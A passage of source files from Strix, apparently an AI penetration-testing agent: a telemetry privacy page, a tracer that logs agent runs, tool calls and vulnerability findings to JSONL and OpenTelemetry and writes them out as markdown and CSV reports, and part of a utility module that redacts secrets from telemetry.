We use [PostHog](https://posthog.com), an open-source analytics platform, for data collection and analysis. Our telemetry implementation is fully transparent - you can review the [source code](https://github.com/usestrix/strix/blob/main/strix/telemetry/posthog.py) to see exactly what we track.

### Telemetry Policy

Privacy is our priority. All collected data is anonymized by default. Each session gets a random UUID that is not persisted or tied to you. Your code, scan targets, vulnerability details, and findings always remain private and are never collected.

### What We Track

We collect only very **basic** usage data including:

**Session Errors:** Duration and error types (not messages or stack traces)\
**System Context:** OS type, architecture, Strix version\
**Scan Context:** Scan mode (quick/standard/deep), scan type (whitebox/blackbox)\
**Model Usage:** Which LLM model is being used (not prompts or responses)\
**Aggregate Metrics:** Vulnerability counts by severity, agent/tool counts, token usage and cost estimates

For complete transparency, you can inspect our [telemetry implementation](https://github.com/usestrix/strix/blob/main/strix/telemetry/posthog.py) to see the exact events we track.

### What We **Never** Collect

- IP addresses, usernames, or any identifying information
- Scan targets, file paths, target URLs, or domains
- Vulnerability details, descriptions, or code
- LLM requests and responses

### How to Opt Out

Telemetry in Strix is entirely **optional**:

```bash
export STRIX_TELEMETRY=0
```

You can set this environment variable before running Strix to disable **all** telemetry.
```

## File: `strix/telemetry/tracer.py`
```python
import json
import logging
import threading
from datetime import UTC, datetime
from pathlib import Path
from typing import Any, Callable, Optional
from uuid import uuid4

from opentelemetry import trace
from opentelemetry.trace import SpanContext, SpanKind

from strix.config import Config
from strix.telemetry import posthog
from strix.telemetry.flags import is_otel_enabled
from strix.telemetry.utils import (
    TelemetrySanitizer,
    append_jsonl_record,
    bootstrap_otel,
    format_span_id,
    format_trace_id,
    get_events_write_lock,
)


try:
    from traceloop.sdk import Traceloop
except ImportError:  # pragma: no cover - exercised when dependency is absent
    Traceloop = None  # type: ignore[assignment,unused-ignore]


logger = logging.getLogger(__name__)

_global_tracer: Optional["Tracer"] = None

_OTEL_BOOTSTRAP_LOCK = threading.Lock()
_OTEL_BOOTSTRAPPED = False
_OTEL_REMOTE_ENABLED = False

def get_global_tracer() -> Optional["Tracer"]:
    return _global_tracer


def set_global_tracer(tracer: "Tracer") -> None:
    global _global_tracer  # noqa: PLW0603
    _global_tracer = tracer


class Tracer:
    def __init__(self, run_name: str | None = None):
        self.run_name = run_name
        self.run_id = run_name or f"run-{uuid4().hex[:8]}"
        self.start_time = datetime.now(UTC).isoformat()
        self.end_time: str | None = None

        self.agents: dict[str, dict[str, Any]] = {}
        self.tool_executions: dict[int, dict[str, Any]] = {}
        self.chat_messages: list[dict[str, Any]] = []
        self.streaming_content: dict[str, str] = {}
        self.interrupted_content: dict[str, str] = {}

        self.vulnerability_reports: list[dict[str, Any]] = []
        self.final_scan_result: str | None = None

        self.scan_results: dict[str, Any] | None = None
        self.scan_config: dict[str, Any] | None = None
        self.run_metadata: dict[str, Any] = {
            "run_id": self.run_id,
            "run_name": self.run_name,
            "start_time": self.start_time,
            "end_time": None,
            "targets": [],
            "status": "running",
        }
        self._run_dir: Path | None = None
        self._events_file_path: Path | None = None
        self._next_execution_id = 1
        self._next_message_id = 1
        self._saved_vuln_ids: set[str] = set()
        self._run_completed_emitted = False
        self._telemetry_enabled = is_otel_enabled()
        self._sanitizer = TelemetrySanitizer()

        self._otel_tracer: Any = None
        self._remote_export_enabled = False

        self.caido_url: str | None = None
        self.vulnerability_found_callback: Callable[[dict[str, Any]], None] | None = None

        self._setup_telemetry()
        self._emit_run_started_event()

    @property
    def events_file_path(self) -> Path:
        if self._events_file_path is None:
            self._events_file_path = self.get_run_dir() / "events.jsonl"
        return self._events_file_path

    def _active_events_file_path(self) -> Path:
        active = get_global_tracer()
        if active and active._events_file_path is not None:
            return active._events_file_path
        return self.events_file_path

    def _get_events_write_lock(self, output_path: Path | None = None) -> threading.Lock:
        path = output_path or self.events_file_path
        return get_events_write_lock(path)

    def _active_run_metadata(self) -> dict[str, Any]:
        active = get_global_tracer()
        if active:
            return active.run_metadata
        return self.run_metadata

    def _setup_telemetry(self) -> None:
        global _OTEL_BOOTSTRAPPED, _OTEL_REMOTE_ENABLED

        if not self._telemetry_enabled:
            self._otel_tracer = None
            self._remote_export_enabled = False
            return

        run_dir = self.get_run_dir()
        self._events_file_path = run_dir / "events.jsonl"
        base_url = (Config.get("traceloop_base_url") or "").strip()
        api_key = (Config.get("traceloop_api_key") or "").strip()
        headers_raw = Config.get("traceloop_headers") or ""

        (
            self._otel_tracer,
            self._remote_export_enabled,
            _OTEL_BOOTSTRAPPED,
            _OTEL_REMOTE_ENABLED,
        ) = bootstrap_otel(
            bootstrapped=_OTEL_BOOTSTRAPPED,
            remote_enabled_state=_OTEL_REMOTE_ENABLED,
            bootstrap_lock=_OTEL_BOOTSTRAP_LOCK,
            traceloop=Traceloop,
            base_url=base_url,
            api_key=api_key,
            headers_raw=headers_raw,
            output_path_getter=self._active_events_file_path,
            run_metadata_getter=self._active_run_metadata,
            sanitizer=self._sanitize_data,
            write_lock_getter=self._get_events_write_lock,
            tracer_name="strix.telemetry.tracer",
        )

    def _set_association_properties(self, properties: dict[str, Any]) -> None:
        if Traceloop is None:
            return
        sanitized = self._sanitize_data(properties)
        try:
            Traceloop.set_association_properties(sanitized)
        except Exception:  # noqa: BLE001
            logger.debug("Failed to set Traceloop association properties")

    def _sanitize_data(self, data: Any, key_hint: str | None = None) -> Any:
        return self._sanitizer.sanitize(data, key_hint=key_hint)

    def _append_event_record(self, record: dict[str, Any]) -> None:
        try:
            append_jsonl_record(self.events_file_path, record)
        except OSError:
            logger.exception("Failed to append JSONL event record")

    def _enrich_actor(self, actor: dict[str, Any] | None) -> dict[str, Any] | None:
        if not actor:
            return None

        enriched = dict(actor)
        if "agent_name" in enriched:
            return enriched

        agent_id = enriched.get("agent_id")
        if not isinstance(agent_id, str):
            return enriched

        agent_data = self.agents.get(agent_id, {})
        agent_name = agent_data.get("name")
        if isinstance(agent_name, str) and agent_name:
            enriched["agent_name"] = agent_name

        return enriched

    def _emit_event(
        self,
        event_type: str,
        actor: dict[str, Any] | None = None,
        payload: Any | None = None,
        status: str | None = None,
        error: Any | None = None,
        source: str = "strix.tracer",
        include_run_metadata: bool = False,
    ) -> None:
        if not self._telemetry_enabled:
            return

        enriched_actor = self._enrich_actor(actor)
        sanitized_actor = self._sanitize_data(enriched_actor) if enriched_actor else None
        sanitized_payload = self._sanitize_data(payload) if payload is not None else None
        sanitized_error = self._sanitize_data(error) if error is not None else None

        trace_id: str | None = None
        span_id: str | None = None
        parent_span_id: str | None = None

        current_context = trace.get_current_span().get_span_context()
        if isinstance(current_context, SpanContext) and current_context.is_valid:
            parent_span_id = format_span_id(current_context.span_id)

        if self._otel_tracer is not None:
            try:
                with self._otel_tracer.start_as_current_span(
                    f"strix.{event_type}",
                    kind=SpanKind.INTERNAL,
                ) as span:
                    span_context = span.get_span_context()
                    trace_id = format_trace_id(span_context.trace_id)
                    span_id = format_span_id(span_context.span_id)

                    span.set_attribute("strix.event_type", event_type)
                    span.set_attribute("strix.source", source)
                    span.set_attribute("strix.run_id", self.run_id)
                    span.set_attribute("strix.run_name", self.run_name or "")

                    if status:
                        span.set_attribute("strix.status", status)
                    if sanitized_actor is not None:
                        span.set_attribute(
                            "strix.actor",
                            json.dumps(sanitized_actor, ensure_ascii=False),
                        )
                    if sanitized_payload is not None:
                        span.set_attribute(
                            "strix.payload",
                            json.dumps(sanitized_payload, ensure_ascii=False),
                        )
                    if sanitized_error is not None:
                        span.set_attribute(
                            "strix.error",
                            json.dumps(sanitized_error, ensure_ascii=False),
                        )
            except Exception:  # noqa: BLE001
                logger.debug("Failed to create OTEL span for event type '%s'", event_type)

        if trace_id is None:
            trace_id = format_trace_id(uuid4().int & ((1 << 128) - 1)) or uuid4().hex
        if span_id is None:
            span_id = format_span_id(uuid4().int & ((1 << 64) - 1)) or uuid4().hex[:16]

        record = {
            "timestamp": datetime.now(UTC).isoformat(),
            "event_type": event_type,
            "run_id": self.run_id,
            "trace_id": trace_id,
            "span_id": span_id,
            "parent_span_id": parent_span_id,
            "actor": sanitized_actor,
            "payload": sanitized_payload,
            "status": status,
            "error": sanitized_error,
            "source": source,
        }
        if include_run_metadata:
            record["run_metadata"] = self._sanitize_data(self.run_metadata)
        self._append_event_record(record)

    def set_run_name(self, run_name: str) -> None:
        self.run_name = run_name
        self.run_id = run_name
        self.run_metadata["run_name"] = run_name
        self.run_metadata["run_id"] = run_name
        self._run_dir = None
        self._events_file_path = None
        self._run_completed_emitted = False
        self._set_association_properties({"run_id": self.run_id, "run_name": self.run_name or ""})
        self._emit_run_started_event()

    def _emit_run_started_event(self) -> None:
        if not self._telemetry_enabled:
            return

        self._emit_event(
            "run.started",
            payload={
                "run_name": self.run_name,
                "start_time": self.start_time,
                "local_jsonl_path": str(self.events_file_path),
                "remote_export_enabled": self._remote_export_enabled,
            },
            status="running",
            include_run_metadata=True,
        )

    def get_run_dir(self) -> Path:
        if self._run_dir is None:
            runs_dir = Path.cwd() / "strix_runs"
            runs_dir.mkdir(exist_ok=True)

            run_dir_name = self.run_name if self.run_name else self.run_id
            self._run_dir = runs_dir / run_dir_name
            self._run_dir.mkdir(exist_ok=True)

        return self._run_dir

    def add_vulnerability_report(  # noqa: PLR0912
        self,
        title: str,
        severity: str,
        description: str | None = None,
        impact: str | None = None,
        target: str | None = None,
        technical_analysis: str | None = None,
        poc_description: str | None = None,
        poc_script_code: str | None = None,
        remediation_steps: str | None = None,
        cvss: float | None = None,
        cvss_breakdown: dict[str, str] | None = None,
        endpoint: str | None = None,
        method: str | None = None,
        cve: str | None = None,
        cwe: str | None = None,
        code_locations: list[dict[str, Any]] | None = None,
    ) -> str:
        report_id = f"vuln-{len(self.vulnerability_reports) + 1:04d}"

        report: dict[str, Any] = {
            "id": report_id,
            "title": title.strip(),
            "severity": severity.lower().strip(),
            "timestamp": datetime.now(UTC).strftime("%Y-%m-%d %H:%M:%S UTC"),
        }

        if description:
            report["description"] = description.strip()
        if impact:
            report["impact"] = impact.strip()
        if target:
            report["target"] = target.strip()
        if technical_analysis:
            report["technical_analysis"] = technical_analysis.strip()
        if poc_description:
            report["poc_description"] = poc_description.strip()
        if poc_script_code:
            report["poc_script_code"] = poc_script_code.strip()
        if remediation_steps:
            report["remediation_steps"] = remediation_steps.strip()
        if cvss is not None:
            report["cvss"] = cvss
        if cvss_breakdown:
            report["cvss_breakdown"] = cvss_breakdown
        if endpoint:
            report["endpoint"] = endpoint.strip()
        if method:
            report["method"] = method.strip()
        if cve:
            report["cve"] = cve.strip()
        if cwe:
            report["cwe"] = cwe.strip()
        if code_locations:
            report["code_locations"] = code_locations

        self.vulnerability_reports.append(report)
        logger.info(f"Added vulnerability report: {report_id} - {title}")
        posthog.finding(severity)
        self._emit_event(
            "finding.created",
            payload={"report": report},
            status=report["severity"],
            source="strix.findings",
        )

        if self.vulnerability_found_callback:
            self.vulnerability_found_callback(report)

        self.save_run_data()
        return report_id

    def get_existing_vulnerabilities(self) -> list[dict[str, Any]]:
        return list(self.vulnerability_reports)

    def update_scan_final_fields(
        self,
        executive_summary: str,
        methodology: str,
        technical_analysis: str,
        recommendations: str,
    ) -> None:
        self.scan_results = {
            "scan_completed": True,
            "executive_summary": executive_summary.strip(),
            "methodology": methodology.strip(),
            "technical_analysis": technical_analysis.strip(),
            "recommendations": recommendations.strip(),
            "success": True,
        }

        self.final_scan_result = f"""# Executive Summary

{executive_summary.strip()}

# Methodology

{methodology.strip()}

# Technical Analysis

{technical_analysis.strip()}

# Recommendations

{recommendations.strip()}
"""

        logger.info("Updated scan final fields")
        self._emit_event(
            "finding.reviewed",
            payload={
                "scan_completed": True,
                "vulnerability_count": len(self.vulnerability_reports),
            },
            status="completed",
            source="strix.findings",
        )
        self.save_run_data(mark_complete=True)
        posthog.end(self, exit_reason="finished_by_tool")

    def log_agent_creation(
        self,
        agent_id: str,
        name: str,
        task: str,
        parent_id: str | None = None,
    ) -> None:
        agent_data: dict[str, Any] = {
            "id": agent_id,
            "name": name,
            "task": task,
            "status": "running",
            "parent_id": parent_id,
            "created_at": datetime.now(UTC).isoformat(),
            "updated_at": datetime.now(UTC).isoformat(),
            "tool_executions": [],
        }

        self.agents[agent_id] = agent_data
        self._emit_event(
            "agent.created",
            actor={"agent_id": agent_id, "agent_name": name},
            payload={"task": task, "parent_id": parent_id},
            status="running",
            source="strix.agents",
        )

    def log_chat_message(
        self,
        content: str,
        role: str,
        agent_id: str | None = None,
        metadata: dict[str, Any] | None = None,
    ) -> int:
        message_id = self._next_message_id
        self._next_message_id += 1

        message_data = {
            "message_id": message_id,
            "content": content,
            "role": role,
            "agent_id": agent_id,
            "timestamp": datetime.now(UTC).isoformat(),
            "metadata": metadata or {},
        }

        self.chat_messages.append(message_data)
        self._emit_event(
            "chat.message",
            actor={"agent_id": agent_id, "role": role},
            payload={"message_id": message_id, "content": content, "metadata": metadata or {}},
            status="logged",
            source="strix.chat",
        )
        return message_id

    def log_tool_execution_start(
        self,
        agent_id: str,
        tool_name: str,
        args: dict[str, Any],
    ) -> int:
        execution_id = self._next_execution_id
        self._next_execution_id += 1

        now = datetime.now(UTC).isoformat()
        execution_data = {
            "execution_id": execution_id,
            "agent_id": agent_id,
            "tool_name": tool_name,
            "args": args,
            "status": "running",
            "result": None,
            "timestamp": now,
            "started_at": now,
            "completed_at": None,
        }

        self.tool_executions[execution_id] = execution_data

        if agent_id in self.agents:
            self.agents[agent_id]["tool_executions"].append(execution_id)

        self._emit_event(
            "tool.execution.started",
            actor={
                "agent_id": agent_id,
                "tool_name": tool_name,
                "execution_id": execution_id,
            },
            payload={"args": args},
            status="running",
            source="strix.tools",
        )

        return execution_id

    def update_tool_execution(
        self,
        execution_id: int,
        status: str,
        result: Any | None = None,
    ) -> None:
        if execution_id not in self.tool_executions:
            return

        tool_data = self.tool_executions[execution_id]
        tool_data["status"] = status
        tool_data["result"] = result
        tool_data["completed_at"] = datetime.now(UTC).isoformat()

        tool_name = str(tool_data.get("tool_name", "unknown"))
        agent_id = str(tool_data.get("agent_id", "unknown"))
        error_payload = result if status in {"error", "failed"} else None

        self._emit_event(
            "tool.execution.updated",
            actor={
                "agent_id": agent_id,
                "tool_name": tool_name,
                "execution_id": execution_id,
            },
            payload={"result": result},
            status=status,
            error=error_payload,
            source="strix.tools",
        )

        if tool_name == "create_vulnerability_report":
            finding_status = "reviewed" if status == "completed" else "rejected"
            self._emit_event(
                "finding.reviewed",
                actor={"agent_id": agent_id, "tool_name": tool_name},
                payload={"execution_id": execution_id, "result": result},
                status=finding_status,
                error=error_payload,
                source="strix.findings",
            )

    def update_agent_status(
        self,
        agent_id: str,
        status: str,
        error_message: str | None = None,
    ) -> None:
        if agent_id in self.agents:
            self.agents[agent_id]["status"] = status
            self.agents[agent_id]["updated_at"] = datetime.now(UTC).isoformat()
            if error_message:
                self.agents[agent_id]["error_message"] = error_message

        self._emit_event(
            "agent.status.updated",
            actor={"agent_id": agent_id},
            payload={"error_message": error_message},
            status=status,
            error=error_message,
            source="strix.agents",
        )

    def set_scan_config(self, config: dict[str, Any]) -> None:
        self.scan_config = config
        self.run_metadata.update(
            {
                "targets": config.get("targets", []),
                "user_instructions": config.get("user_instructions", ""),
                "max_iterations": config.get("max_iterations", 200),
            }
        )
        self._set_association_properties(
            {
                "run_id": self.run_id,
                "run_name": self.run_name or "",
                "targets": config.get("targets", []),
                "max_iterations": config.get("max_iterations", 200),
            }
        )
        self._emit_event(
            "run.configured",
            payload={"scan_config": config},
            status="configured",
            source="strix.run",
        )

    def save_run_data(self, mark_complete: bool = False) -> None:
        try:
            run_dir = self.get_run_dir()
            if mark_complete:
                if self.end_time is None:
                    self.end_time = datetime.now(UTC).isoformat()
                self.run_metadata["end_time"] = self.end_time
                self.run_metadata["status"] = "completed"

            if self.final_scan_result:
                penetration_test_report_file = run_dir / "penetration_test_report.md"
                with penetration_test_report_file.open("w", encoding="utf-8") as f:
                    f.write("# Security Penetration Test Report\n\n")
                    f.write(
                        f"**Generated:** {datetime.now(UTC).strftime('%Y-%m-%d %H:%M:%S UTC')}\n\n"
                    )
                    f.write(f"{self.final_scan_result}\n")
                logger.info(
                    "Saved final penetration test report to: %s",
                    penetration_test_report_file,
                )

            if self.vulnerability_reports:
                vuln_dir = run_dir / "vulnerabilities"
                vuln_dir.mkdir(exist_ok=True)

                new_reports = [
                    report
                    for report in self.vulnerability_reports
                    if report["id"] not in self._saved_vuln_ids
                ]

                severity_order = {"critical": 0, "high": 1, "medium": 2, "low": 3, "info": 4}
                sorted_reports = sorted(
                    self.vulnerability_reports,
                    key=lambda report: (
                        severity_order.get(report["severity"], 5),
                        report["timestamp"],
                    ),
                )

                for report in new_reports:
                    vuln_file = vuln_dir / f"{report['id']}.md"
                    with vuln_file.open("w", encoding="utf-8") as f:
                        f.write(f"# {report.get('title', 'Untitled Vulnerability')}\n\n")
                        f.write(f"**ID:** {report.get('id', 'unknown')}\n")
                        f.write(f"**Severity:** {report.get('severity', 'unknown').upper()}\n")
                        f.write(f"**Found:** {report.get('timestamp', 'unknown')}\n")

                        metadata_fields: list[tuple[str, Any]] = [
                            ("Target", report.get("target")),
                            ("Endpoint", report.get("endpoint")),
                            ("Method", report.get("method")),
                            ("CVE", report.get("cve")),
                            ("CWE", report.get("cwe")),
                        ]
                        cvss_score = report.get("cvss")
                        if cvss_score is not None:
                            metadata_fields.append(("CVSS", cvss_score))

                        for label, value in metadata_fields:
                            if value:
                                f.write(f"**{label}:** {value}\n")

                        f.write("\n## Description\n\n")
                        description = report.get("description") or "No description provided."
                        f.write(f"{description}\n\n")

                        if report.get("impact"):
                            f.write("## Impact\n\n")
                            f.write(f"{report['impact']}\n\n")

                        if report.get("technical_analysis"):
                            f.write("## Technical Analysis\n\n")
                            f.write(f"{report['technical_analysis']}\n\n")

                        if report.get("poc_description") or report.get("poc_script_code"):
                            f.write("## Proof of Concept\n\n")
                            if report.get("poc_description"):
                                f.write(f"{report['poc_description']}\n\n")
                            if report.get("poc_script_code"):
                                f.write("```\n")
                                f.write(f"{report['poc_script_code']}\n")
                                f.write("```\n\n")

                        if report.get("code_locations"):
                            f.write("## Code Analysis\n\n")
                            for i, loc in enumerate(report["code_locations"]):
                                prefix = f"**Location {i + 1}:**"
                                file_ref = loc.get("file", "unknown")
                                line_ref = ""
                                if loc.get("start_line") is not None:
                                    if loc.get("end_line") and loc["end_line"] != loc["start_line"]:
                                        line_ref = f" (lines {loc['start_line']}-{loc['end_line']})"
                                    else:
                                        line_ref = f" (line {loc['start_line']})"
                                f.write(f"{prefix} `{file_ref}`{line_ref}\n")
                                if loc.get("label"):
                                    f.write(f"  {loc['label']}\n")
                                if loc.get("snippet"):
                                    f.write(f"  ```\n  {loc['snippet']}\n  ```\n")
                                if loc.get("fix_before") or loc.get("fix_after"):
                                    f.write("\n  **Suggested Fix:**\n")
                                    f.write("```diff\n")
                                    if loc.get("fix_before"):
                                        for line in loc["fix_before"].splitlines():
                                            f.write(f"- {line}\n")
                                    if loc.get("fix_after"):
                                        for line in loc["fix_after"].splitlines():
                                            f.write(f"+ {line}\n")
                                    f.write("```\n")
                                f.write("\n")

                        if report.get("remediation_steps"):
                            f.write("## Remediation\n\n")
                            f.write(f"{report['remediation_steps']}\n\n")

                    self._saved_vuln_ids.add(report["id"])

                vuln_csv_file = run_dir / "vulnerabilities.csv"
                with vuln_csv_file.open("w", encoding="utf-8", newline="") as f:
                    import csv

                    fieldnames = ["id", "title", "severity", "timestamp", "file"]
                    writer = csv.DictWriter(f, fieldnames=fieldnames)
                    writer.writeheader()

                    for report in sorted_reports:
                        writer.writerow(
                            {
                                "id": report["id"],
                                "title": report["title"],
                                "severity": report["severity"].upper(),
                                "timestamp": report["timestamp"],
                                "file": f"vulnerabilities/{report['id']}.md",
                            }
                        )

                if new_reports:
                    logger.info(
                        "Saved %d new vulnerability report(s) to: %s",
                        len(new_reports),
                        vuln_dir,
                    )
                logger.info("Updated vulnerability index: %s", vuln_csv_file)

            logger.info("📊 Essential scan data saved to: %s", run_dir)
            if mark_complete and not self._run_completed_emitted:
                self._emit_event(
                    "run.completed",
                    payload={
                        "duration_seconds": self._calculate_duration(),
                        "vulnerability_count": len(self.vulnerability_reports),
                    },
                    status="completed",
                    source="strix.run",
                    include_run_metadata=True,
                )
                self._run_completed_emitted = True

        except (OSError, RuntimeError):
            logger.exception("Failed to save scan data")

    def _calculate_duration(self) -> float:
        try:
            start = datetime.fromisoformat(self.start_time.replace("Z", "+00:00"))
            if self.end_time:
                end = datetime.fromisoformat(self.end_time.replace("Z", "+00:00"))
                return (end - start).total_seconds()
        except (ValueError, TypeError):
            pass
        return 0.0

    def get_agent_tools(self, agent_id: str) -> list[dict[str, Any]]:
        return [
            exec_data
            for exec_data in list(self.tool_executions.values())
            if exec_data.get("agent_id") == agent_id
        ]

    def get_real_tool_count(self) -> int:
        return sum(
            1
            for exec_data in list(self.tool_executions.values())
            if exec_data.get("tool_name") not in ["scan_start_info", "subagent_start_info"]
        )

    def get_total_llm_stats(self) -> dict[str, Any]:
        from strix.tools.agents_graph.agents_graph_actions import _agent_instances

        total_stats = {
            "input_tokens": 0,
            "output_tokens": 0,
            "cached_tokens": 0,
            "cost": 0.0,
            "requests": 0,
        }

        for agent_instance in _agent_instances.values():
            if hasattr(agent_instance, "llm") and hasattr(agent_instance.llm, "_total_stats"):
                agent_stats = agent_instance.llm._total_stats
                total_stats["input_tokens"] += agent_stats.input_tokens
                total_stats["output_tokens"] += agent_stats.output_tokens
                total_stats["cached_tokens"] += agent_stats.cached_tokens
                total_stats["cost"] += agent_stats.cost
                total_stats["requests"] += agent_stats.requests

        total_stats["cost"] = round(total_stats["cost"], 4)

        return {
            "total": total_stats,
            "total_tokens": total_stats["input_tokens"] + total_stats["output_tokens"],
        }

    def update_streaming_content(self, agent_id: str, content: str) -> None:
        self.streaming_content[agent_id] = content

    def clear_streaming_content(self, agent_id: str) -> None:
        self.streaming_content.pop(agent_id, None)

    def get_streaming_content(self, agent_id: str) -> str | None:
        return self.streaming_content.get(agent_id)

    def finalize_streaming_as_interrupted(self, agent_id: str) -> str | None:
        content = self.streaming_content.pop(agent_id, None)
        if content and content.strip():
            self.interrupted_content[agent_id] = content
            self.log_chat_message(
                content=content,
                role="assistant",
                agent_id=agent_id,
                metadata={"interrupted": True},
            )
            return content

        return self.interrupted_content.pop(agent_id, None)

    def cleanup(self) -> None:
        self.save_run_data(mark_complete=True)
```

## File: `strix/telemetry/utils.py`
```python
import json
import logging
import re
import threading
from collections.abc import Callable, Sequence
from datetime import UTC, datetime
from pathlib import Path
from typing import Any

from opentelemetry import trace
from opentelemetry.sdk.trace import ReadableSpan, TracerProvider
from opentelemetry.sdk.trace.export import (
    BatchSpanProcessor,
    SimpleSpanProcessor,
    SpanExporter,
    SpanExportResult,
)
from scrubadub import Scrubber
from scrubadub.detectors import RegexDetector
from scrubadub.filth import Filth


logger = logging.getLogger(__name__)

_REDACTED = "[REDACTED]"
_SCREENSHOT_OMITTED = "[SCREENSHOT_OMITTED]"
_SCREENSHOT_KEY_PATTERN = re.compile(r"screenshot", re.IGNORECASE)
_SENSITIVE_KEY_PATTERN = re.compile(
    r"(api[_-]?key|token|secret|password|authorization|cookie|session|credential|private[_-]?key)",
    re.IGNORECASE,
)
_SENSITIVE_TOKEN_PATTERN = re.compile(
    r"(?i)\b("
    r"bearer\s+[a-z0-9._-]+|"
    r"sk-[a-z0-9_-]{8,}|"
    r"gh[pousr]_[a-z0-9_-]{12,}|"
    r"xox[baprs]-[a-z0-9-]{12,}"
    r")\b"
)
_SCRUBADUB_PLACEHOLDER_PATTERN = re.compile(r"\{\{[^}]+\}\}")
_EVENTS_FILE_LOCKS_LOCK = threading.Lock()
_EVENTS_FILE_LOCKS: dict[str, threading.Lock] = {}
_NOISY_OTEL_CONTENT_PREFIXES = (
    "gen_ai.prompt.",
    "gen_ai.completion.",
    "llm.input_messages.",
    "llm.output_messages.",
)
_NOISY_OTEL_EXACT_KEYS = {
    "llm.input",
    "llm.output",
    "llm.prompt",
    "llm.completion",
}


class _SecretFilth(Filth):  # type: ignore[misc]
    type = "secret"


class _SecretTokenDetector(RegexDetector):  # type: ignore[misc]
    name = "strix_secret_token_detector"
    filth_cls = _SecretFilth
    regex = _SENSITIVE_TOKEN_PATTERN


class TelemetrySanitizer:
    def __init__(self) -> None:
        self._scrubber = Scrubber(detector_list=[_SecretTokenDetector])

    def sanitize(self, data: Any, key_hint: str | None = None) -> Any:  # noqa: PLR0911
        if data is None:
            return None

        if isinstance(data, dict):
            sanitized: dict[str, Any] = {}
            for key, value in data.items():
                key_str = str(key)
                if _SCREENSHOT_KEY_PATTERN.search(key_str):
                    sanitized[key_str] = _SCREENSHOT_OMITTED
                elif _SENSITIVE_KEY_PATTERN.search(key_str):
                    sanitized[key_str] = _REDACTED
                else:
                    sanitized[key_str] = self.sanitize(value, key_hint=key_str)
            return sanitized

        if isinstance(data, list):
            return [self.sanitize(item, key_hint=key_hint) for item in data]

        if isinstance(data, tuple):
            return [self.sanitize(item, key_hint=key_hint) for item in data]

        if isinstance(data, str):
            if key_hint and _SENSITIVE_KEY_PATTERN.search(key_hint):
                return _REDACTED

            cleaned = self._scrubber.clean(data)
            return _SCRUBADUB_PLACEHOLDER_PATTERN.sub(_REDACTED, cleaned)

        if isinstance(data, int | float | bool):
            return data

        return str(data)


def format_trace_id(trace_id: int | None) -> str | None:
    if trace_id is None or trace_id == 0:
        return None
    return f"{trace_id:032x}"


def format_span_id(span_id: int | None) -> str | None:
    if span_id is None or span_id == 0:
        return None
    return f"{span_id:016x}"


def iso_from_unix_ns(unix_ns: int | None) -> str | None:
    if unix_ns is None:
        return None
    try:
        return datetime.fromtimestamp(unix_ns / 1_000_000_000, tz=UTC).isoformat()
    except (OSError, OverflowError, ValueError):
        return None


def get_events_write_lock(output_path: Path) -> threading.Lock:
    path_key = str(output_path.resolve(strict=False))
    with _EVENTS_FILE_LOCKS_LOCK:
        lock = _EVENTS_FILE_LOCKS.get(path_key)
        if lock is None:
            lock = threading.Lock()
            _EVENTS_FILE_LOCKS[path_key] = lock
        return lock


def reset_events_write_locks() -> None:
    with _EVENTS_FILE_LOCKS_LOCK:
        _EVENTS_FILE_LOCKS.clear()


def append_jsonl_record(output_path: Path, record: dict[str, Any]) -> None:
    output_path.parent.mkdir(parents=True, exist_ok=True)
    with get_events_write_lock(output_path), output_path.open("a", encoding="utf-8") as f:
        f.write(json.dumps(record, ensure_ascii=False) + "\n")


def default_resource_attributes() -> dict[str, str]:
    return {
        "service.name": "strix-agent",
        "service.namespace": "strix",
    }


def parse_traceloop_headers(raw_headers: str) -> dict[str, str]:
    headers = raw_headers.strip()
    if not headers:
        return {}

    if headers.startswith("{"):
        try:
            parsed = json.loads(headers)
        except json.JSONDecodeError:
            logger.warning("Invalid TRACELOOP_HEADERS JSON, ignoring custom headers")
            return {}
        if isinstance(parsed, dict):
            return {str(key): str(value) for key, value in parsed.items() if value is not None}
        logger.warning("TRACELOOP_HEADERS JSON must be an object, ignoring custom headers")
        return {}

    result: dict[str, str] = {}
    for part in headers.split(","):
        key, sep, value = part.partition("=")
        if not sep:
            continue
        key = key.strip()
        value = value.strip()
        if key and value:
            result[key] = value
    return result


def prune_otel_span_attributes(attributes: dict[str, Any]) -> dict[str, Any]:
    """Drop high-volume LLM payload attributes to keep JSONL event files compact."""
    filtered: dict[str, Any] = {}
    filtered_count = 0

    for key, value in attributes.items():
        key_str = str(key)
        if key_str in _NOISY_OTEL_EXACT_KEYS:
            filtered_count += 1
            continue

        if key_str.endswith(".content") and key_str.startswith(_NOISY_OTEL_CONTENT_PREFIXES):
            filtered_count += 1
            continue

        filtered[key_str] = value

    if filtered_count:
        filtered["strix.filtered_attributes_count"] = filtered_count

    return filtered


class JsonlSpanExporter(SpanExporter):  # type: ignore[misc]
    """Append OTEL spans to JSONL for local run artifacts."""

    def __init__(
        self,
        output_path_getter: Callable[[], Path],
        run_metadata_getter: Callable[[], dict[str, Any]],
        sanitizer: Callable[[Any], Any],
        write_lock_getter: Callable[[Path], threading.Lock],
    ):
        self._output_path_getter = output_path_getter
        self._run_metadata_getter = run_metadata_getter
        self._sanitize = sanitizer
        self._write_lock_getter = write_lock_getter

    def export(self, spans: Sequence[ReadableSpan]) -> SpanExportResult:
        records: list[dict[str, Any]] = []
        for span in spans:
            attributes = prune_otel_span_attributes(dict(span.attributes or {}))
            if "strix.event_type" in attributes:
                # Tracer events are written directly in Tracer._emit_event.
                continue
            records.append(self._span_to_record(span, attributes))

        if not records:
            return SpanExportResult.SUCCESS

        try:
            output_path = self._output_path_getter()
            output_path.parent.mkdir(parents=True, exist_ok=True)
            with self._write_lock_getter(output_path), output_path.open("a", encoding="utf-8") as f:
                for record in records:
                    f.write(json.dumps(record, ensure_ascii=False) + "\n")
        except OSError:
            logger.exception("Failed to write OTEL span records to JSONL")
            return SpanExportResult.FAILURE

        return SpanExportResult.SUCCESS

    def shutdown(self) -> None:
        return None

    def force_flush(self, timeout_millis: int = 30_000) -> bool:  # noqa: ARG002
        return True

    def _span_to_record(
        self,
        span: ReadableSpan,
        attributes: dict[str, Any],
    ) -> dict[str, Any]:
        span_context = span.get_span_context()
        parent_context = span.parent

        status = None
        if span.status and span.status.status_code:
            status = span.status.status_code.name.lower()

        event_type = str(attributes.get("gen_ai.operation.name", span.name))
        run_metadata = self._run_metadata_getter()
        run_id_attr = (
            attributes.get("strix.run_id")
            or attributes.get("strix_run_id")
            or run_metadata.get("run_id")
            or span.resource.attributes.get("strix.run_id")
        )

        record: dict[str, Any] = {
            "timestamp": iso_from_unix_ns(span.end_time) or datetime.now(UTC).isoformat(),
            "event_type": event_type,
            "run_id": str(run_id_attr or run_metadata.get("run_id") or ""),
